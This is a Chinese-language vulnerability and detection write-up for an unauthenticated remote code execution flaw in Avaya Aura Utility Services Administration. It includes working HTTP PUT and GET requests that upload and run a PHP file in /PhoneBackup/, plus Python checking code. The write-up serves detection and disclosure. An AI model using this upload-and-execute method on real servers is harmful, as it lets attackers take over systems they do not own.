

# Avaya Aura Utility Services Administration 远程代码执行漏洞（avaya-aura-rce）

## 漏洞简介
Avaya Aura Utility Services Administration 存在远程代码执行（RCE）漏洞，攻击者可在无需认证的情况下上传恶意 PHP 文件并远程执行任意代码，危害极大。

## 影响范围
- 受影响产品：Avaya Aura Utility Services Administration

## 漏洞原理
攻击者可通过 PUT 方法上传恶意 PHP 文件到 `/PhoneBackup/` 目录，随后通过 GET 请求访问该文件，实现任意代码执行。

## 利用方式与攻击流程
1. 攻击者通过 PUT 方法上传恶意 PHP 文件到 `/PhoneBackup/` 目录。
2. 通过 GET 请求访问上传的 PHP 文件，触发代码执行。

## 探测原理与流程
### 请求包示例
1. 上传恶意 PHP 文件：
```http
PUT /PhoneBackup/poc.php HTTP/1.1
Host: target.com
User-Agent: AVAYA
Connection: close

<?php print('avaya-aura-rce');unlink(__FILE__); ?>
```
2. 访问上传的 PHP 文件：
```http
GET /PhoneBackup/poc.php HTTP/1.1
Host: target.com
User-Agent: AVAYA
Connection: close
```

### 响应与判定逻辑
- 第一步响应状态码为 201。
- 第二步响应体包含 `avaya-aura-rce`。

### 伪代码
```python
# 步骤1：上传 PHP 文件
resp1 = requests.put('http://target.com/PhoneBackup/poc.php', data="<?php print('avaya-aura-rce');unlink(__FILE__); ?>", headers={"User-Agent": "AVAYA"})
# 步骤2：访问 PHP 文件
resp2 = requests.get('http://target.com/PhoneBackup/poc.php', headers={"User-Agent": "AVAYA"})
if resp1.status_code == 201 and 'avaya-aura-rce' in resp2.text:
    print('存在 RCE 漏洞')
```

### Mermaid 流程图


## 参考链接
- [Assetnote Blog 漏洞分析](https://blog.assetnote.io/2023/02/01/rce-in-avaya-aura/)
- [Avaya 官方公告](https://download.avaya.com/css/public/documents/101076366) 